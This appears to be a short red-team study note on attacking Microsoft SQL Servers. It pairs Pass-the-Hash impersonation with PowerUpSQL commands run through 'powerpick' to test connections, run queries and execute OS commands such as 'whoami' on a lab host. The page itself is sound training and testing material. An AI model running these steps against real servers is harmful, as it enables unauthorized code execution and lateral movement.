 # MS SQL Servers
Microsoft SQL Server allows in addition to the obvious data theft opportunities also code execution, privilege escalation, lateral movement and persistence.

[[PowerUpSQL]] is an excellent tool for enumerating and interacting with MS SQL Servers.
-[[PowerUpSQL#Auto information gathering]]
-[[PowerUpSQL#SQL Query]]

⚠️ Use [[Pass-the-Hash]] to impersonate a user and then use [[PowerUpSQL]] to verify the connection:
>powerpick Get-SQLConnectionTest -Instance "sql.rto.local,1433" | fl

>powerpick Get-SQLQuery -Instance "sql.rto.local,1433" -Query "select @@servername"

>Invoke-SQLOSCmd -Instance "sql.rto.local,1433" -Command "whoami" -RawResults

Or use [[mssqlclient]] via [[Proxychains]] or [[HeidiSQL]] via [[Proxifier]] to query

## Tools
########
########


```meta
ttp: T1000
requirements:
results: 
description: 
```